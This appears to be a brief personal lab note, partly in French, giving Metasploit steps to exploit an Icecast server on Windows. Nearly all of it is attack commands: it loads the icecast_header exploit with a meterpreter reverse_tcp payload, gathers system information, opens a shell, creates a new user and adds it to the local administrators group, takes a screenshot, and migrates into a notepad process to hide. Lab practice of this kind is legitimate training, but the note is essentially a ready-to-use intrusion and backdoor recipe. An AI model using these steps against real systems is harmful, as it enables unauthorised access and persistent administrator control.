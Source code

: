 run icecast en admin sur le windows

lab
	smfconsole
	search icecast
	use exploit/windows/http/icecast_header
	set payload windows/meterpreter/reverse_tcp
	set rhost
	set lhost
	
	sysinfo
	getuid
	ps
	
	shell
	net user <user> passwors /add
	net localgroup administrators <user> /add
	# voir : net localgroup administrators
	
	screenshot -p /tmp/screen/jpg
	
	getpid
	ps -S notepad.exe
	migrate <id>
	get pid
